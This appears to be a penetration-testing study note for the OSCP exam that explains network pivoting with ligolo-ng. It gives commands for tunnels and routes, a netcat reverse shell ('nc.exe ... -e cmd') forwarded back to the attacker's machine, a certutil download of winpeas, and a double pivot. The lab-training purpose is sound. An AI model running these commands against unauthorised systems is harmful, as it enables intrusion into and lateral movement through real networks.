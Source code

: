 # Pivoting for OSCP

{% embed url="https://www.youtube.com/watch?v=DM1B8S80EvQ&t" %}

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

If we're on a Active directory machine and attacking from a kali, we have to download windows agent end linux proxy from releases:

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

On kali:

```
sudo ip tuntap add user felix mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On target machine:

```
./agent.exe -connect <IP-KALI>:11601 -ignore-cert
```

back on ligolo listener:

```
session
1
start 
```

and on another terminal on kali we add the subnet we want to access:

```
sudo ip route add 10.10.14.0/24 dev ligolo
```

### Reverse shells from internal network

Add listener on ligolo proxy ->

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

any connection that comes in to MS01 from port 1234 will be forwarded to our localhost on port 4444

we can check listener with

```
listener_list
```

So now we set up our listener on our kali:

```
rlwrap nc -nlvp 4444
```

Let's say MS01 has internal IP of 10.10.120.131, on our target machine we will change the IP of the listener to ip of MS01:

```
nc.exe 10.10.120.131 1234 -e cmd
```

And from that we should catch our shell up and running

### File transfer from internal network

We go back in the ligolo proxy ->

```
listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```

We choose port 80 because we'll run our python webserver on port 80

let's say we host winpeas ->

```
python -m http.server 80
```

on the target machine:

```
certutil -urlcache -f http://<MS01>:1235/winpeas.exe winpeas.exe
```

and the file will be transfered

### Double Pivot

{% embed url="https://www.youtube.com/watch?v=LiaBVuz2B4o" %}

Let's say we have a successfull pivot, we manage to get a shell on a machine and discover a new subnet we want to scan:

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

on our kali:

```
sudo ip tuntab add user felix mode tun ligolo1; sudo ip link set ligolo1 up
```

On the ligolo session:

```
listener_add --addr 0.0.0.0:9000 --to 127.0.0.1:9001 -tcp
#check if up:
listener_list
```

Then we transfer our agent on the ubuntu machine we control and type:

```
./agent --connect 172.16.0.2:9001 -ignore-cert
```

On ligolo session:

```
session
2
#check:
ifconfig
```

On our kali:

```
sudo ip route add 10.10.10.0/24 dev ligolo1
```

and ligolo session:

```
start --tun ligolo1
```
